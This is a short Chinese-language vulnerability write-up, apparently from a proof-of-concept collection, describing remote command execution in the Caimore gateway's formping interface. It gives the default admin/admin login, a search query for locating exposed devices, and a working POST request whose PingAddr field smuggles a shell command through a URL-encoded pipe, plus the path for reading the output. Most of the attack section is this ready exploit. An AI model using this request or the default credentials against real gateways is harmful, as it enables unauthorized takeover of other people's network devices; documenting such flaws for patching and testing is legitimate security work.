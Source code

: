 # 才茂通信 网关  formping 远程命令执行漏洞

## 漏洞描述

才茂通信网关  formping 接口存在远程命令执行漏洞，攻击者通过默认口令 admin/admin 登陆系统后通过命令可以获取服务器权限

## 漏洞影响

<a-checkbox checked>才茂通信 网关 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="CAIMORE-Gateway"</a-checkbox></br>

## 漏洞复现

登陆页面，默认口令 admin/admin

![img](../../../.vuepress/public/img/1681381379945-dee7d6a4-f5ab-477b-988f-73c5b0d53986.png)

验证POC

```plain
POST /goform/formping
Authorization: Basic YWRtaW46YWRtaW4=

PingAddr=www.baidu.com%7Cls&PingPackNumb=1&PingMsg=
```

![img](../../../.vuepress/public/img/1681386245774-e2311065-b689-435f-b070-7361306ae064.png)



```plain
/pingmessages
```

![img](../../../.vuepress/public/img/1681386230461-7f63b5d4-1994-4408-b30a-adbd73cc33a4.png)